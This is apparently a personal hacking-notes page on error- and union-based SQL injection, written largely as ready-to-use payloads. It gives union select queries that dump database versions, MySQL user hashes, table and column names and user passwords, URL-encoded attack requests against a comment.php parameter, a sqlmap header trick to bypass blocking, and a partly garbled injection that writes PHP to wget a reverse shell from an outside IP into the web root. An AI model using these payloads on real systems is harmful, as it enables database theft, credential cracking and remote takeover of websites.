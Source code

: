 ```yaml
---
tags: 🔻 🔻/Enumeration/sqlinjection errorsqlinjection
aliases: Hacking Notes
---
```


# Error based SQL

We get the output of the first select statement, but not the second. A possible reason is that the application only prints one entry at a time. So let’s modify our query to give the first select statement a cod value that doesn’t exist so that it prints out the result from the second statement.  
{\*\*\*\*\*\*\*Impotant\*\*\*\*\* read it before proceeding- → if working with id =1 union but error not showing..use invaild id so that union command can run like cod=-9999}  
\---------------------------------------------------------------------------------------------------------------  
?cod=9999 union select 1,@@version,3,4,5,6,7

`9999 union select 1,(select '<?php exec(\\"wget -O /var/www/html/shell.php ['),3,4,5,6,7">http://](http://10.10.14.12:5555/php-reverse-shell.php/)x.x.x.x ` 
  
or also can gather password of mysql

Now we know it’s using MariaDB version x.x.x.x  
  
`union select 1,(SELECT host, user, password FROM mysql.user),3,4,5,6,7 ` 
  
We get nothing because we’re querying more than one column in the sub select query. Let’s verify that by just outputting the password column.  
  
`union select 1,(SELECT password FROM mysql.user),3,4,5,6,7`  
  
We get a hash! In order to output multiple columns, you can use the group\_concat() function.  
  
`union select 1,(SELECT group\_concat(host,user,password) FROM mysql.user),3,4,5,6,7 ` 
  
It worked! Now we know that the database is running on localhost, the user is DBadmin and the hash is 2D2B7A5E4E637B8FBA1D17F40318F277D29964D0. We can crack the hash quickly using crackstation.net.

--------------------------------------------------------------------------

`http://<target ip>/comment.php?id=771%20%20union%20select%201,2,3,4,table\_name,6+from%20information\_schema.tables {list all databses tables ;)}  `
`http://<target ip>/comment.php?id=771%20%20union%20select%201,2,3,4,column\_name,6+from%20information\_schema.columns where table\_name='users' {list all databses column of this table;)}  `
  
`http://<target ip>/comment.php?id=771%20%20union%20select%201,2,3,name,password,6+from users  `

--------------------------------------------------------------------------
  
`http://<target ip>/comment.php?id=771%20%20union%20select%201,2,3,4,gRoUp\_cOncaT(0x0a,schema\_name,0x0a),6+fRoM+information\_schema.schemata  `
	
-------------------------------------------------------------------------- 
	
To bypass blocking:  
`./sqlmap.py --headers="User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:25.0) Gecko/20x.x.x.x`

